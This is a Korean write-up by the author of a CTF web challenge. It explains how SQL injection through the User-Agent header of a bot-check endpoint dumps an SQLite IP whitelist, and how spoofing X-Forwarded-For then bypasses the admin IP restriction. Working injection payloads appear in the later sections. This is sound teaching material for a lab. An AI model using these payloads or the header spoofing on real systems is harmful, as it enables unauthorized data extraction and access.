# 해킹 멈춰!! ✋

## 결과

어렵지 않게 냈다고 생각해서 `EASY` 난이도를 부여했던 문제인데, 노솔브로 끝나 아쉬웠던 문제였습니다. 풀이자의 입장에 대한 고려가 충분치 않았던것 같네요 ㅠㅠ 다음엔 더 좋은 문제로 찾아뵐 수 있도록 노력하겠습니다.

## 문제

```bash
저희 공장 서버가 해킹을 당했습니다 ㅠㅠ
들어가면 봇이 탐지되었다며 접근이 안돼요
원래 정말 봇을 탐지하려고 만들었던 기능인데 아마 해커가 서버 코드를 조작한 것 같습니다.

관리자 비밀번호는 `djenadls~?` 입니다!
부디 도와주세요!

http://ctf-hackingcamp.com:11020/
```

이렇게 문제가 나갔었습니다. 컨셉은 공장 서버를 해킹당한 의뢰인이 찾아와 해커가 장난쳐놓은것 같다며 본인 홈페이지를 해킹해달라고 요청하는 시나리오로 작성했습니다.

여기서 시나리오상 중요한 포인트는

- 의뢰인은 해킹을 당했다는 점.
- 홈페이지에 들어가면 봇을 탐지하는 기능이 있다는 점
- 근데 그 봇 페이지 서버 코드를 해커가 조작해서 접속하면 봇으로 탐지된다는 점.
- 관리자의 비밀번호를 알려주었다는 점.

정도로 보면 될 것 같습니다.

## #1. 너와의 첫 만남



*처음 마주하게 되는 화면*

귀여운 최첨단 로봇이 나를 반기며 검사중이라고 합니다. 잠시 기다리면 `Detected Result` 가 뜨며 null이라고 뜨게됩니다. 잠시 후 아래와 같은 화면이 출력됩니다.



*봇으로 탐지되어 넘어가게 되는 화면*

분명히 `Detected Result` 는 `null` 이라고 떴었습니다. 그런데 문제에서 의뢰인이 말했던 것처럼 접속을 하면 봇으로 탐지되게 됩니다.

여기서 출력되는 문구를 잘 보면 현재 접속한 `User-Agent`를 보여줌을 알 수 있고, `Bot Name` 을 `None` 으로 출력하는 것으로 보아 탐지된 봇 이름을 보여줌을 알 수 있습니다. 또한, 그 아래 `데이터베이스 검색` 과 같은 문장으로 다음과 같은 결과를 도출해낼 수 있습니다.

> 봇은 `User-Agent` 헤더를 이용해 데이터베이스 질의를 하고, 그 결과인 `Bot Name`에 따라 차단을 판단한다!

또한, 탐지 결과가 None으로 설정되는 것으로 보아 내 User-Agent가 데이터베이스에는 없는 건 맞는것 같고, 근데 봇으로 탐지한다? 문제에서는 해커가 소스코드를 바꾼 것 같다고 했으니, 이에 대한 원인은 다음과 같이 생각해볼 수 있습니다. 

- 아예 반대로 DB에 데이터가 없을 때 봇으로 탐지하도록 장난침.
- 그냥 싹다 봇으로 탐지되게 장난침.

해커도 접속을 해야하지 않을까? 라고 생각했다면 첫 번째로 좁혀질 수 있을 것 같습니다.


## #2. 잡았다 요놈



*탐지된 이후 패킷을 확인하기 위해 재시도한 결과.*

우선 어떤 패킷이 발생하는지 알아보고자 다시 실행해보면 뭔가 달라진 점이 있을겁니다. 처음 접속할 때는 대기 시간이 존재했고, 초록색 팝업도 뜨면서 친절하게 탐지 결과도 알려준 후에 최종 `차단 페이지`로 넘어갔습니다.

그런데 지금은 그런 과정이 하나도 없고 바로 차단 페이지로 넘어갔습니다. 동일한 세션으로 한번 탐지되었기 때문인데요, 세션을 지우면 다시 처음과 같은 순서대로 동작합니다. 다시 패킷을 확인해보겠습니다.



*세션을 비운뒤 요청했을 때의 결과*

총 3번의 패킷이 발생합니다. 처음 메인페이지에 접근했을 때, 그리고 딱봐도 봇을 체크할 것 같은 url, 마지막으로 차단페이지.

- 몰라도 되지만 조금만 더 TMI,,!

    `처음 접근한 페이지`와 최종적으로 출력되는 `차단페이지`는 동일한 URL에 접근한 결과입니다. 동일한 URL에 동일한 패킷을 보냈는데, 다른 결과를 내었다는 것은 그 사이에 어떠한 일련의 과정을 통해 서버단에 저장된 데이터가 있다는 뜻이겠죠.

    예를들면 지금 이 문제에서는 그 사이에 `bot_check` 라는 과정이 존재하기 때문에 봇을 체크하면서 그 결과를 어딘가에 저장해두었다고 추측해볼 수 있습니다. 그래서 앞서 다시 접속하면 바로 차단 페이지가 떴던 이유도 이와 같지요! 그렇기 때문에 마치 처음 접속하는 것처럼 세션을 비우고 접속을하면 다시 원래대로 동작하는 것입니다.

    이 부분은 다양한 원인이 있을 수 있어서 꼭 이렇다! 는 아니고 지금 문제가 그렇다 정도로만 참고하시면 될 것 같습니다. 몰라도 문제는 풀어요!



*/api/bot_check 요청의 응답데이터*

이와 같이 응답데이터를 확인해보면 화면에 출력되었던 질의 결과를 반환하는 것을 알 수 있습니다. 실질적으로 봇을 체크하는 로직으로 볼 수 있겠네요! 응답 결과도 바로바로 오니 맛있어 보입니다!



*간단한 공격 페이로드가 들어간 패킷*

우선 데이터베이스를 사용하며, `User-Agent` 헤더로 비교를 한다고 하니 여기에 SQL Injection을 시도해볼 수 있겠네요! 결과는 아래와 같습니다.



*공격 결과*

짜잔!

여기서 저는 서버가  `User-Agent` 를 input으로 사용하기 때문에 input으로 사용하는 모든 데이터가 공격 벡터가 될 수 있다! 라는 점을 문제를 통해서 전달하고 싶었습니다.

## #3. 넌 항상 이런식이야

위와 같이 데이터베이스에 있는 봇을 알아내 보았습니다. 그렇다면 이렇게 봇이 실제 있는 경우는 서버가 어떻게 반응할까요?



*프록시로 잡아서 조작된 User-Agent로 요청한 결과*

성공적으로 Detect 되는 것을 확인할 수 있습니다. 그렇다면 과연 이 경우에는 어떻게 될까요?



*등장해버린 관리자 로그인 페이지*

드디어 봇 관문을 통과했습니다! 그러나 로그인이 남아있죠. 걱정할 필요가 없는게, 문제에서 비밀번호는 다 제공되었습니다. `djenadls~?` 이 비밀번호로 로그인 해보겠습니다.



*로그인 결과*

로그인을 시도했지만 받게되는 메세지는 차단 메세지입니다. 여기서 알 수 있는 점은 접근 가능한 IP를 설정하는 기능이 있고, 그 IP는 데이터베이스를 통해 관리한다는 점입니다.

그렇다면 이 IP는 무엇으로 설정되어있을까요?

- 관리자가 주로 접속할 때 사용하는 IP
- 해커가 추후 접속을 위해 설정해놓은 해커의 IP

이런 식으로 생각해볼 수 있는데, 중요한건 접속할 수 있는 IP를 알아내야 한다는 점입니다. 데이터베이스에 있는 IP를 어떻게 알아낼 수 있을까요?

사실 저희는 이미 데이터베이스에 한번 공격을 했던 이력이 있습니다. DB에 공격이 가능한 것을 알고 있으니 이를 통해 DB를 탈탈 털어보는건 어떨까요?

## #4. 본격 DB털이

DB를 털기위한 공격은 `/api/bot_check` 페이지에 계속 다양한 쿼리를 날려보면서 진행할 수 있습니다.

```
hi" or 1 -- 

hi" union select "hacked
```

이것저것 하다보면 아무런 필터링 없이 위와 같은 쿼리들이 동작함을 알 수 있습니다. 아래와 같이 버전을 출력해보며 DB를 특정할 수도 있습니다.

```
hi" union select version() -- 오류발생

hi" union select @@version -- 오류발생

hi" union select sqlite_version() -- 정상적으로 출력됨
```

위 결과를 통해 sqlite DB를 사용함을 알 수 있고, sqlite 문법에 맞게 페이로드를 작성해나가면 됩니다.

```
hi" union select tbl_name from sqlite_master --

hi" union select tbl_name from sqlite_master limit 3,1 --

hi" union select sql from sqlite_master where name="white_list

hi" union select ip from white_list --
```

주요한 쿼리들은 위와 같습니다.  존재하는 table을 찾다보면 `white_list` 라는 테이블이 있는 것과, `ip` 컬럼이 존재함을 알 수 있습니다. 최종적으로 화이트리스트 테이블을 출력해보면 아래와 같이 결과가 잘 나옵니다.



whilte_list 조회 결과

~~(내 생일)~~

## #5. 마무리

white_list에 존재하는 IP를 얻었으니, 로그인 요청 시 `X-Forwarded-For` 헤더를 통해 클라이언트 IP를 위장하면 정상적으로 로그인이 되고, 플래그를 얻을 수 있습니다.

SQL에 필터링도 없고, 경험이 있다면 XFF 헤더도 알 것이라고 생각했고, 데이터베이스라는 단어를 직접적으로 사용하면서 각종 문구들을 제작했기 때문에 EASY 난이도를 부여했었습니다. 하지만 풀이 과정을 전혀 모르고 접근하는 참가자의 관점에서 생각하는 부분이 미흡했던 것 같습니다.

다음에는 더 재미있고 게싱스러움을 쪽 빼고 돌아오겠습니다! 열심히 풀어주셔서 감사해요!! 😉